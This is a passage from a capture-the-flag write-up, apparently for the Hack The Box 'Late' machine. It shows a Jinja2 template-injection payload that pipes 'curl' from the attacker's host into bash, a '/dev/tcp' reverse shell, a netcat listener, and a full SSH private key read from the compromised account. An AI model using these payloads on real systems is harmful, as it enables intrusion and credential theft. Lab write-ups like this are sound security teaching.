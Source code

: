 Setup a bash reverse shell, I'll give it `index.html` name to get it mapped by the first endpoint `/` with the http python server:

```bash
echo "bash -i >& /dev/tcp/10.10.16.8/9001 0>&1" > rev
[werz@ctf01 www]$ cat rev
bash -i >& /dev/tcp/10.10.16.8/9001 0>&1
```

Then start a python server:

```bash
[werz@Arch www]$ sudo python3 -m http.server 80
[sudo] password for werz: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```python
{{ cycler.__init__.__globals__.os.popen('curl 10.10.16.8 | bash').read() }}

```

the image should look like this, white background black font helps:

{{< img-border-radius src="https://github.com/0xWerz/CTF-writeups/raw/main/HTB/Machines/late/img/rev_pay.png" radius="3%" >}}
and we have a shell!

```bash
[werz@ctf01 www]$ nc -lvnp 9001
Connection from 10.10.11.156:35182
bash: cannot set terminal process group (1129): Inappropriate ioctl for device
bash: no job control in this shell
svc_acc@late:~/app$ 
```

I'll grab the ssh keys to get a nice shell:

```bash
svc_acc@late:~/app$ cat ~/.ssh/id_rsa
cat ~/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
svc_acc@late:~/app$ 
```